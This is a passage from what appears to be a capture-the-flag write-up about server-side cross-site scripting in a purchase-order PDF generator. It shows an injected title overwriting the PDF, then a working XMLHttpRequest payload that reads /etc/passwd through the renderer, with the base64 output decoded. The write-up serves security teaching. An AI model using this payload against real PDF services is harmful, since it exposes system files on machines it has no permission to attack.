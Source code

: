 The site reports success. Visiting the url for that purchase order
(`/api/po/[id]`) shows it worked:

![image-20230612110025160](../img/image-20230612110025160.png)

“test” overwrote all the other HTML / CSS that was making the PDF.

#### File Read POCs

In the [Read local file](https://book.hacktricks.xyz/pentesting-web/xss-cross-
site-scripting/server-side-xss-dynamic-pdf#read-local-file) section, there are
POCs to try. The first one involves a script using an `XMLHttpRequest` to read
a file:

    
    
    <script>
    x=new XMLHttpRequest;
    x.onload=function(){document.write(btoa(this.responseText))};
    x.open("GET","file:///etc/passwd");x.send();
    </script>
    

I’ll remove the newlines and escape the double quotes, place it as the
`title`, and it works, kind of:

![image-20230612114615486](../img/image-20230612114615486.png)

Only the start of `/etc/passwd` makes it into the page before it’s truncated:

    
    
    oxdf@hacky$ echo "cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL3NiaW4vbm9sb2dpbgpiaW46eDoyOjI6YmluOi9iaW46L3Vzci9" | base64 -d
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/base64: invalid input
    